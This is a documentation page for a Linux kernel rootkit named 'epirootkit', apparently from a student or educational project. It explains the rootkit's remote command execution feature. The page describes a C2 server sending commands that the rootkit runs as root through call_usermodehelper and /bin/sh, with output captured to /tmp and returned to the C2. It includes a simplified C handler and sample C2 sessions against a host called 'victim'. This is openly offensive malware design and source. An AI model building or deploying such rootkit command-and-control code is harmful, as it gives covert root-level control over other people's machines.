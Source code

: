 ```yaml
---
title: "Command Execution"
description: "Execute shell commands remotely with full output capture"
icon: "terminal"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 510
---
```


# Command Execution

Execute shell commands remotely through the rootkit with full output capture.

## How It Works

1. **C2 sends command**: `exec Client-1 whoami`
2. **Rootkit receives**: Command string via network
3. **Executes command**: Using `call_usermodehelper()` with `/bin/sh -c`
4. **Captures output**: Redirects stdout/stderr to temporary file
5. **Returns result**: Exit code and output back to C2

## Implementation Details

### Execution Method
- **API**: `call_usermodehelper()` (kernel 5.4.0 compatible)
- **Shell**: `/bin/sh -c "command"`
- **Privileges**: Runs with root privileges
- **Output capture**: Temporary files in `/tmp/epirootkit_out_*`

### Limits
- **Command length**: 1024 bytes (MAX_COMMAND_LENGTH)
- **Output size**: 64KB (MAX_OUTPUT_SIZE) with dynamic allocation
- **Timeout**: No timeout (commands run to completion)

## Usage Examples

```bash
# System information
c2-server$ exec Client-1 whoami
# Exit code: 0
# Output:
# root

c2-server$ exec Client-1 uname -a
# Exit code: 0
# Output:
# Linux victim 5.4.0-74-generic #83-Ubuntu SMP Wed Apr 29 23:25:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```


## Technical Implementation

### Command Processing
```c
// Simplified version of the actual implementation
static int handle_exec(const char *data)
{
    char *argv[] = { "/bin/sh", "-c", command_copy, NULL };
    char *envp[] = { 
        "HOME=/", 
        "PATH=/sbin:/bin:/usr/bin:/usr/local/bin", 
        "TERM=xterm",
        NULL 
    };
    
    // Generate unique temporary filename
    snprintf(temp_filename, sizeof(temp_filename), 
             "/tmp/epirootkit_out_%d", atomic_inc_return(&exec_counter));
    
    // Build command with output redirection
    snprintf(full_command, command_len + temp_len + 32,
             "%s > %s 2>&1", data, temp_filename);
    
    // Execute command
    ret = call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
    
    // Read output from temporary file
    // ... (file reading logic)
    
    return send_result(formatted_result);
}
```

### Output Capture
- **Redirection**: `command > /tmp/epirootkit_out_X 2>&1`
- **File reading**: `kernel_read()` to get output
- **Dynamic allocation**: `vmalloc()` for large outputs
- **Cleanup**: Automatic temporary file removal


## Security Considerations

### Privileges
- **Root execution**: All commands run with kernel-level privileges
- **No sandboxing**: Commands have full system access
- **Logging**: All commands logged to kernel log via `pr_info()`

### Limitations
- **No interactive commands**: Cannot handle commands requiring user input

